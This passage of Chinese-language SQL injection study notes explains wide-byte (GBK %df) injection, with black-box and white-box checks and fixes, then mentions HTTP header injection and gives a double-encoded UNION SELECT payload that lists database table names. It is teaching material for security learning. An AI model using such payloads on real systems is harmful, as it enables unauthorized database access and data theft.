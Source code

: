   ```

- mysql在使用`GBK`编码时，**符合条件**会认为`2个字符`是`1个汉字`

- 第一个字节`129-254`，第二个字节为`64-254`

- 原理:程序员会对**特殊字符**(例如单引号)进行**正则匹配使其失效**，这时无法使用普通注入

- 方法:

  ```
  //黑盒
  在注入点后键入%df，再开始正常注入
  键入字符的ASCII要大于128，才能和反斜杠 “\” 组合成一个汉字
  
  //白盒
  查看Mysql编码是否为GBK
  是否使用了preg_replace进行正则替换
  是否使用了addslashes()进行转义
  是否使用了mysql_real_escape_string()进行转义
  ```

- 宽字节注入修复

- ```php
  //编码设置
  Mysql_query("SET
  character_set_connection=gbk,character_set_result=gbk,character_set_client=binary
  ",$conn);
  ```

- ```php
  //过滤函数
  mysql_real_escape_string()/addslashes()
  ```

### HTTP头注入

- **常见污染参数**

  ![image-20240825155656203](assets/image-20240825155656203.png)

- $_SERVER:包含诸多http信息的数组

### 二次编码注入

```sql
-1%2527 union select 1,(select group_concat(table_name) from
information_schema.tables where table_schema=database()),database() -- qwe

-1%2527
```

### Base64注入
